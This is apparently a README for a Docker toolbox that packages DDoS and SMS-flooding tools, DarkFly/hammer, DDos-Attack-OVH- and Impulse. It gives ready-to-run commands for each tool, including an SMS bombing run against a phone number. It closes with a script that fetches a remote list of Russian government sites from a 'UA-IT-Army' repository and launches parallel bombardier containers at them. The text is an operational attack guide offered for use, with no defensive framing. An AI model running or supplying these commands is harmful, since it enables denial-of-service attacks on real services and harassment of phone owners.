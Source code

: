 # Intro

toolbox container includes:

* https://github.com/Ranginang67/DarkFly-Tool
* https://github.com/HardyTomas/DDos-Attack-OVH-.git
* https://github.com/LimerBoy/Impulse.git

# Use

(Optional) Build container:

```shell
docker build -t droopy4096/uait-tools -f containers/Dockerfile.toolkit .
```

Login into container shell:

```shell
docker run --rm -it droopy4096/uait-tools
root@bda7c51682fb:/opt# 
```

from here several tools are at your disposal:

## DarkFly

https://telegra.ph/DDOS-sajta--DarkFly-08-11

just launch DarkFly console:

```shell
DarkFly
```

follow `1` then `16` to install `hammer` into `/root/hammer.py` 

## DDos-Attack-OVH-

https://github.com/HardyTomas/DDos-Attack-OVH-

```shell
cd DDos-Attack-OVH-
python3 80port.py
# or
python3 443port.py
```

##  LimerBoy / Impulse 

https://github.com/LimerBoy/Impulse

```shell
cd LimerBoy-Impulse
python3 impulse.py --method SMS --time 20 --threads 15 --target +380123456789
```

# Automated bombardier

to spawn several `bombardier`'s in isolated docker containers:

```shell
tools/bombarder.sh $(curl -s https://raw.githubusercontent.com/UA-IT-Army/aggressor-sites/main/ru/ru_gosuslugi.json | jq -r '. | keys[]')
```